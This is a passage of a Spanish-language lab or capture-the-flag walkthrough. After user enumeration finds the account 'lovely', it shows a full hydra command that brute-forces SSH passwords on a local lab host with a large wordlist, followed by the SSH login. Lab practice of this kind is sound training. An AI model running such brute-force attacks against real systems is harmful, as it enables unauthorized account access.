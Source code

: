 
Ejecutamos el módulo
```
run
```

![](img/Pasted%20image%2020241231185953.png#center)



Nos encuentra solo un usuario `lovely`, podemos hacer fuerza bruta con `HYDRA` o con el módulo de `metasploit` como `ssh_login`. Hacemos fuerza bruta con `HYDRA`, ya que el del módulo ya lo tenemos mas arriba de como se hace. Y así repasamos como podemos hacer fuerza bruta con `hydra` conociendo un  usuario
```
hydra -l lovely -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt 172.17.0.2 -t 4 ssh
```

![](img/Pasted%20image%2020250101092810.png#center)

Entramos en el protocolo `SSH` con las credenciales.
```
ssh lovely@172.17.0.2
```

![](img/Pasted%20image%2020250101092908.png#center)
